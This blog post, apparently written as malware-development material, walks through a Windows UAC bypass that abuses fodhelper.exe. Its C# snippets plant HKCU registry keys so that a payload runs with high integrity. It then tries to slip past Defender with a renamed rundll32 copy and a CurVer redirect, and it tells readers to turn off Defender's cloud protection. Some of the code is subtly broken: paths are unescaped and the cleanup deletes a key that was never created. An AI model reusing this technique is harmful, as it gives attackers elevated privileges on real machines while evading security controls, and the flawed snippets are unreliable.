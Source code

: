 ```yaml
---
layout: post
title: Bypassing UAC with FodHelper
date: 2023-11-29
categories: [Malware Development, Evasion]
tags: [evasion]     
---
```



FodHelper is a Windows binary used to manage optional features. `fodhelper.exe` is vulnerable because it is a high-integrity process that interacts with the `HKEY_CURRENT_USER` registry hive, which we can control. One notable example of malware that uses `fodhelper.exe` to bypass User Account Control (UAC) and execute malicious activities is the TrickBot trojan.

When launched, FodHelper will search for the `(default)` value in the `HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command` registry key. This registry key does not exist by default, so if we create it and add the DelegateExecute property, it will execute our payload in a high-integrity context.

Let's try out a console app that will make `fodhelper.exe` execute our payload, marked as `<PAYLOAD>` 

> All of the projects created in this post are on my GitHub, check them out! Don't forget to turn off`Cloud-Delivered protection` and `Automatic sample submission`.
{: .prompt-info }

```C#
using System.Diagnostics;
using Microsoft.Win32;

// Create the registry key
RegistryKey key = Registry.CurrentUser.CreateSubKey(@"Software\Classes\ms-settings\shell\open\command");

// Set the default value of the key
key.SetValue("", "<PAYLOAD>");

// Create the DelegateExecute property
key.SetValue("DelegateExecute", "", RegistryValueKind.String);

// Create a new process
Process process = new Process();

// Set the process start info
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";

// Start the process
process.Start();
```

Let's substitute `<PAYLOAD>` for `powershell.exe`, build the code and try it out.

![Image 1](/assets/image1.png)

It seems like Windows Defender doesn't want to have executables in `(default)`. What if we try `powershell` instead of `powershell.exe`?...still doesn't work. Maybe `powershell "Start-Process powershell"`?...nope. If we can't get it to execute any commands, injecting a DLL into FodHelper is the next best thing. 

The easiest way to do this would be to make it execute `rundll32 <DLL_NAME>`. Since I don't think Defender would be too happy with us making FodHelper run a binary from `%windir\system32%`, let's make a copy of `run32dll`. Our payload should now be `C:\temp\luci C:\temp\payload.dll`. Let's apply these revisions to our code

```C#
using System.Diagnostics;
using Microsoft.Win32;
// The full and improved code in this snippet above can be found on my GitHub
private const string Payload = "C:\temp\luci.exe C:\temp\payload.dll,DllMain";

// Copy run32dll.exe to luci.exe
File.Copy(@"C:\windows\system32\rundll32.exe", @"C:\temp\luci.exe");

// Create the registry key
RegistryKey key = Registry.CurrentUser.CreateSubKey(@"Software\Classes\ms-settings\shell\open\command");

// Set the default value of the key
key.SetValue("", Payload);

// Create the DelegateExecute property
key.SetValue("DelegateExecute", "", RegistryValueKind.String);

// Create a new process
Process process = new Process();

// Set the process start info
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";

// Start the process
process.Start();
```

Having an evasive payload inside a DLL can be difficult, so let's see if this can be done any other way. What if we can somehow trick Defender into thinking the registry key has been untouched? Let's look it up.

![Image 2](/assets/image2.png)

Upon reading the documentation, I have stumbled upon this:


|CurVer |	Set the (Default) entry of this subkey to the most current version of this ProgID.Note: Unless you have side-by-side application versions, that is, multiple versions installed on the same system, you should avoid using CurVer.|
|--- |---|

***https://learn.microsoft.com/en-us/windows/win32/shell/fa-progids***

Looks fairly promising...let's see how it can be used. Consulting with StackExchange led me to this (post)[https://stackoverflow.com/questions/20974888/how-to-find-componentid-of-wscript-shell]. Finally, this should trick Defender into perceiving the registry untouched:

```C#        
// Create the registry keys
Registry.SetValue(@"HKEY_CURRENT_USER\Software\Classes\ms-settings\CurVer", "", ".redirect");
Registry.SetValue(@"HKEY_CURRENT_USER\Software\Classes\.redirect\Shell\Open\command", "", <PAYLOAD>);

 // Start the process
Process process = new Process();
process.StartInfo.FileName = @"C:\Windows\System32\fodhelper.exe";
process.Start();

// Cleanup
System.Threading.Thread.Sleep(3000);
Registry.CurrentUser.DeleteSubKeyTree("Software\\Classes\\ms-settings");
Registry.CurrentUser.DeleteSubKeyTree("Software\\Classes\\rekt");

```

And...this got caught by Defender again. So far, it seems like the only way to do this is using a DLL. I will update this post if I find any other method. 

Thanks for reading!
